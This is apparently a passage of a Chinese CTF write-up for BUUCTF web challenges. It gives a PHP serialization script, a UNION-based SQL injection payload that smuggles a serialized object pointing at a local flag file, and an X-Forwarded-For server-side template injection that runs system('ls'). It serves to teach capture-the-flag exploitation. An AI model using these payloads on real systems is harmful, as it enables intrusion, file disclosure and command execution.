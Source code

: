 ```
<?php
class UserInfo{
    public $name = "123";
    public $age = 11;
    public $blog = "file:///var/www/html/flag.php";
}
$aaa = new UserInfo();
$bbb = serialize($aaa);
echo $bbb;
?>
```

最终payload:

`?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:3:"123";s:3:"age";i:11;s:4:"blog";s:29:"file:///var/www/html/flag.php";}';#`

execute之后查看源代码发现iframe标签访问之后在源码中得到flag



# buuctf the secret of ip

知识点:

- XFF注入
- **Flask**可能存在**Jinjia2模版注入漏洞**
	**PHP**可能存在**Twig模版注入漏洞**



X-Forwarded-For（XFF）是用来识别通过HTTP代理或负载均衡方式连接到Web服务器的客户端最原始的IP地址的HTTP请求头字段。

根据题目提示,猜测可能是XFF注入

使用burp抓包之后添加:

`X-Forward-For:1`

发现ip地址变成1说明是XFF注入

在此处尝试sql注入失败.

此处是模板注入漏洞,添加模板算式,检测是否可以执行:

`X-Forwarded-For: {{7*7}}`

`X-Forwarded-For: {{system('ls')}}`

发现可以执行,利用命令拿到flag



# buuctf had a bad day

打开返现?category=woffers

尝试sql注入失败
